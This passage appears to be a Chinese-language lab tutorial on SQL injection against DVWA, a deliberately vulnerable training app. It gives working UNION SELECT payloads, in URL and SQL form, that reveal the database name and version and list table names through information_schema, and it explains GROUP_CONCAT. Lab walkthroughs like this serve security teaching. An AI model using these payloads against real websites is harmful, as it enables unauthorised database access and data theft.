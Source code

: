 ### 获取数据

####  获取数据库名、数据库版本

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27%20union%20select%20database(),version()%23&Submit=Submit#

SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1' union select database(),version()#';
```

网站回显

![](image/1.jpg)

#### 获取数据库中的表名

* `group_concat`

  ```
  GROUP_CONCAT(
  			[DISTINCT] expr [,expr ...]             
  			[
  			ORDER BY {unsigned_integer | col_name | expr}                 
  				[ASC | DESC] [,col_name ...]
  			]             
  			[SEPARATOR *str_val*]
  			)
  ```

  将多行数据按照指定的顺序连接成一个字符串，默认以逗号分隔。

方法一：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,table_name from Information_schema.tables where table_schema = database()#';
```
